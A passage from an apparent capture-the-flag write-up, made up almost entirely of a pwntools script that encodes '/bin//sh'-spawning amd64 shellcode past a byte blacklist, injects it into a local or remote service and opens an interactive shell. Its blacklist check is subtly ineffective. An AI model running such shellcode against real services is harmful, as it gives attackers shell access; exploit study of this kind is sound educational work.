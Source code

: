 Then we build a python script that embeds this shellcode, connect to the vulnerable service and inject it (we should make sure no blackilsted chars resides in the shellcode):
```python
from pwn import *
import argparse

context.arch = 'amd64'
context.os = 'linux'
context.bits = 64

blacklist = [b"\x0f", b"\xCD\x80"]

if __name__ == "__main__":
    parser = argparse.ArgumentParser()

    subparsers = parser.add_subparsers(dest='command')

    parser_local = subparsers.add_parser('local')
    parser_local.add_argument('binary')

    parser_remote = subparsers.add_parser('remote')
    parser_remote.add_argument('host')
    parser_remote.add_argument('port', type=int)

    args = parser.parse_args()

    if args.command == 'local':
        p = process(args.binary)
    elif args.command == 'remote':
        p = remote(args.host, args.port)
    else:
        parser.print_help()
        exit(1)
    
    sc = bytes([
        0x48, 0x8b, 0x3c, 0x24, 0x48, 0x81, 0xc7, 0xee, 0x2b, 0x00, 0x00, 0x48,
        0x8b, 0x17, 0x48, 0x81, 0xea, 0xe0, 0x00, 0x03, 0x00, 0x31, 0xf6, 0x48,
        0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x56, 0x53, 0x48,
        0x89, 0xe7, 0x56, 0xff, 0xd2, 0xc3
   ])

    sc = encode(sc, avoid=blacklist)

    for i in range(len(sc)-1):
        if sc[i] == blacklist[0] or (sc[i] == blacklist[1][0] and sc[i+1] == blacklist[1][1]):
            raise Exception('blacklist char {} at {}'.format(sc[i], i))

    p.sendline(sc)

    p.interactive()


```
